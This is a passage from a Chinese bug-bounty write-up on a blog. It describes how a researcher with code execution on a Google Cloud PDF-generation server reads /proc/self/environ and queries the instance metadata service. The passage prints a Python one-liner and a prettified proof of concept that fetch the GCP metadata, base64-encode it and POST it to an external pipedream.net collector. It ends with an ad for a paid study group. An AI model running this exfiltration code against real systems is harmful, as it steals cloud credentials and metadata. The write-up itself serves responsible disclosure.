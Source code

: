     generic
    
    835 Bytes
    
    © Guge's Blog

`/proc/self/environ` 的内容非常非常敏感，由于负责生成 pdf 的服务器托管在 Google Cloud
上，我们还可以获取Metadata 响应，为了确认这一点，白帽子使用了如下payload进行测试：

    
    
    python3 -c "import requests;import base64;metadata_url = 'http://169.254.169.254/computeMetadata/v1/instance/?recursive=true';metadata_headers = {'Metadata-Flavor': 'Google'};response = requests.get(metadata_url, headers=metadata_headers);encoded_metadata = base64.b64encode(response.text.encode()).decode();target_server_url = 'https://en2celq7rewbul.m.pipedream.net/';data_payload = {'metadata': encoded_metadata};requests.post(target_server_url, json=data_payload)"
    
    generic
    
    468 Bytes
    
    © Guge's Blog

经过美化后的PoC：

    
    
    import requests
    
    import base64
    
    metadata_url = 'http://169.254.169.254/computeMetadata/v1/instance/?recursive=true'
    
    metadata_headers = {'Metadata-Flavor': 'Google'} # custom metadata header requirement we have RCE so we could add it easily ;)
    
    response = requests.get(metadata_url, headers=metadata_headers)
    
    encoded_metadata = base64.b64encode(response.text.encode()).decode()
    
    target_server_url = 'https://en2celq7rewbul.m.pipedream.net/'
    
    data_payload = {'metadata': encoded_metadata}
    
    requests.post(target_server_url, json=data_payload)
    
    generic
    
    540 Bytes
    
    © Guge's Blog

上面的代码可以向 Google 云Metadata端点发出请求，然后将 json 响应发送到白帽子的服务器（base64 编码）。

在确认所有这些信息后，白帽子停止了继续测试并向厂商报告了以上所有内容，目标厂商对漏洞报告非常满意，尽管他们的最高赏金是3K，但他们为该漏洞支付了4.5K赏金。

![]()

 **  
**

如果你是一个长期主义者，欢迎加入我的知识星球([优先查看这个链接，里面可能还有优惠券](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247489122&idx=1&sn=a022eae85e06e46d769c60b2f608f2b8&chksm=e8a61c01dfd195170a090bce3e27dffdc123af1ca06d196aa1c7fe623a8957755f0cc67fe004&scene=21#wechat_redirect))，我们一起往前走，每日都会更新，精细化运营，微信识别二维码付费即可加入，如不满意，72
小时内可在 App 内无条件自助退款
